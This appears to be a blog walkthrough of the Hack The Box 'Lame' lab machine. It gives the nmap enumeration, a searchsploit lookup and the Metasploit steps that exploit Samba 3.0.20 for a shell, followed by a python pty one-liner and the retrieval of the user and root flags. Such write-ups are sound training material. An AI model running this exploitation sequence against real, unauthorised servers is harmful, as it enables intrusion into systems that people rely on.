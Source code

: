 ```yaml
---
title:  "Hack The Box: Lame - Walkthrough"
date:   2020-01-09 19:30:55
---
```


It's been a while since i've last actively posted something on my blog. I've been really busy with uni and real life stuff but i managed to get some more free time on my hands. Lame was one of the more easier boxes that i've done if i say so myself. Here is my write up :)

![](/assets/3/1.png)

<h2>Enumeration</h2>
Let's start off with our nmap scan.

```
mkdir scans
nmap -sV -sC -oA scans/nmapinitial 10.10.10.3
```

-sC for default scripts, 
-sV for version enumeration, 
-oA for output all formats.

![](/assets/3/2.png)

Couple of interesting results:

- FTP allows anonymous login but when loggin in there wasn't any useful information.
- OpenSSH version is not vulnerable.
- Samba is our injection point.

I ran a searchsploit on the samba version.

```
searchsploit samba 3.0.20
```

![](/assets/3/3.png)

Great an exploit that leads to command execution, lets power up metasploit!

<h2>Exploitation</h2>

```
msfconsole
```

![](/assets/3/4.png)

Lets search for the exploit we just found.

```
search samba 3.0.20
```

![](/assets/3/5.png)

Bunch of results, but the one we found when running searchsploit has ID 14.

```
use 14
```

Let's see what we need to set in the exploit before running it.

```
show options
```

![](/assets/3/6.png)

Looks like we only have to set the rhost, let's go ahead and do that.

```
set rhost 10.10.10.3
```

![](/assets/3/7.png)

Then run it.

```
run
```

![](/assets/3/8.png)

Great, we got in! Quickly checked what the current user was and spawned a TTY shell with:

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

<h2>Getting user.txt</h2>
Let's continue and find the user and root flag. When going through the user folders i found the user.txt file in /home/makis.

![](/assets/3/9.png)

<h2>Getting root.txt</h2>
Let's go to the root directory now for root.txt file.

![](/assets/3/10.png)

And there we have it, box done :)

Thanks for reading and happy hacking!

